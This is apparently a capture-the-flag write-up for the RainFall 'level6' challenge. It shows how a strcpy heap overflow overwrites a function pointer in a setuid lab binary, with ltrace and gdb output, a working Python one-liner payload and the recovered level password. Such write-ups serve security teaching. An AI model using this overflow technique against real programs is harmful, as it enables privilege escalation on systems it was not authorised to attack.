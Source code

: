 level6
======

*	We spawn with a [level6](source/level6) executable
	```console
	level6@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
	level6@RainFall:~$ ./level6 
	Segmentation fault (core dumped)
	level6@RainFall:~$ ./level6 test
	Nope
	```
*	Let's look at the [code](source/level6.c):
	- `main` takes a string as argument and then:	
		- `malloc dest[64]`
		- `malloc ppcVar1[4]`
		- store address of `m` in `ppcVar1`
		- `strcpy()` input into `dest`
		- calls `(**ppcVar1)()`
	- `m` just `puts("Nope")`
	- `n` cat the password of the next level

	So this seems to be a new type of issue since we have no `gets` nor `printf` here.
*	Since `m` is called through `ppcVar1`, our main goal should be to replace the address to `n`. We might exploit `strcpy()` which does no memory bound checking.
*	Using `ltrace` allow us to check that `dest` and `ppcVar1` are contiguously allocated on the heap or else we wouldn't be able to overflow it the right way.
	```console
	level6@RainFall:~$ ltrace ./level6 
	[...]
	malloc(64)         = 0x0804a008
	malloc(4)          = 0x0804a050
	```
	They do go one after the other and have a `0x48(HEX)` -> `72(DEC)` bytes difference [64 + 4 + address(4) = 72]
*	Now we need the address of `n`
	```gdb 
	(gdb) x n 
	0x8048454 <n>:  0x83e58955
	```
	little endian -> `\x54\x84\x04\x08`
*	Let's finish this exercice:
	```console
	level6@RainFall:~$ ./level6 $(python -c 'print("a" * 72 + "\x54\x84\x04\x08")')
	f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
	```